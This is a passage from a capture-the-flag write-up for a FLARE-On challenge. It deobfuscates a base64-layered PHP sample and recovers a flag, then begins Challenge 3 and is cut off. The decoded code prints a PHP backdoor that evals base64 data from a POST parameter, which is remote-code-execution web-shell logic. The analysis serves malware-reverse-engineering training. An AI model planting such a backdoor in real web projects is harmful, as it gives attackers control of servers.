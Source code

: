 Contents of ``$_`` and ``$__`` are clearly encoded in ``base64`` and  ``$___`` is ``base64_decode``. Base64 can be decoded in Python by calling ``base64.b64decode``.
Line #4 can be re-written as

{{< codecaption lang="php" title="Line 4" >}}

eval(base64_decode('JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7'));

// result

$code=base64_decode($_);    eval($code);

{{< /codecaption >}}

So it must decode the first base64 blob and eval it. Let's decode it:

{{< codecaption lang="php" title="Decoded line 4" >}}

if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"]))
{
eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]));
}

{{< /codecaption >}}

This looks like a POST request. The characters look like a mix of ASCII and Hex values. Let's print them using Python and hope this is the last encoding:

{{< codecaption lang="python" title="Decoder code in Python" >}}

mylist= [97,49,49,68,0x4F,84,116,0x68,97,0x74,0x44,0x4F,0x54,0x6A,97,0x76,0x61,0x35,0x63,0x72,97,0x70,0x41,84,0x66,0x6C,97,0x72,0x65,0x44,65,0x53,72,111,110,68,79,84,99,0x6F,0x6D]

print ''.join( chr(item) for item in mylist)

{{< /codecaption >}}

Fortunately, we are done.

#### Level 2 flag: a11DOTthatDOTjava5crapATflareDASHonDOTcom or a11.that.java5crap@flare-on.com

---

## <a name="ch3"></a> Challenge 3 - Cheating My Way to the Top

```
Nice job, you're really knocking these out! Here's the next binary. The password to the zip archive is "malware" again.
Keep up the good work, and good luck!
-FLARE
```

Challenge 3 is a Win32 binary called ``such_evil``. ``PE-Studio`` does not tell us much.

Running it will result in this message:
